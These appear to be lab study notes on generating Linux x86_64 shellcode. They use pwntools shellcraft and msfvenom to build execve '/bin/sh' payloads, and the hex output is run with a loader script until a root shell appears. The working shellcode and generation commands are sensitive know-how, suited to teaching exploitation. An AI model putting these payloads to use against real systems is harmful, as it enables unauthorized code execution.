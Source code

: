 ```shell-session

[...SNIP... 'execve', 'exit', 'exit_group', ... SNIP...]
```
- Let's use the `execve` syscall like we did above to drop in a shell, as follows.
```shell-session
>>> syscall = shellcraft.execve(path='/bin/sh',argv=['/bin/sh']) # syscall and args
>>> asm(syscall).hex() # print shellcode

'48b801010101010101015048b82e63686f2e726901483104244889e748b801010101010101015048b82e63686f2e7269014831042431f6566a085e4801e6564889e631d26a3b580f05'
```
- We can find a complete list of `x86_64` syscalls and their arguments on [this link](https://docs.pwntools.com/en/stable/shellcraft/amd64.html).
- We can now try running this shellcode with `loader.py`.
```shell-session
secmancer@htb[/htb]$ python3 loader.py '48b801010101010101015048b82e63686f2e726901483104244889e748b801010101010101015048b82e63686f2e7269014831042431f6566a085e4801e6564889e631d26a3b580f05'

$ whoami

root
```
- And it works as expected.



### Msfvenom
- Let's try `msfvenom`, which is another common tool we can use for shellcode generation. 
- Once again, we can list various available payloads for `Linux` and `x86_64` with the command below.
```shell-session
secmancer@htb[/htb]$ msfvenom -l payloads | grep 'linux/x64'

linux/x64/exec                                      Execute an arbitrary command
...SNIP...
```
- The `exec` payload allows us to execute a command we specify. 
- Let's pass '`/bin/sh/`' for the `CMD`, and test the shellcode we get.
```shell-session
secmancer@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'

No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of hex file: 96 bytes
6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05
```
- Note that this shellcode is also not as optimized and short as our shellcode. 
- Let's try running this shellcode with our `loader.py` script.
```shell-session
secmancer@htb[/htb]$ python3 loader.py '6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05'

$ whoami

root
```
- This shellcode works as well. 
- Try testing other types of syscalls and payloads in `shellcraft` and `msfvenom`
